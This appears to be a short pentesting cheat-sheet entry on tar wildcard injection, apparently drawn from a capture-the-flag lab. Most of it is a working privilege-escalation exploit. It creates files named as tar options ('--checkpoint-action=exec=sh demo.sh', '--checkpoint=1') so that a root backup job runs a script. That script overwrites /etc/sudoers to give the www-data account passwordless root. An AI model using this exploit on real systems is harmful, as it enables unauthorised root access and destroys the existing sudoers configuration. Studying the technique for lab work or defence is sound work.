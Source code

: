 # Wildcard Injection

Exemple:

```sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Exploitation

```sh
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```


More info : https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/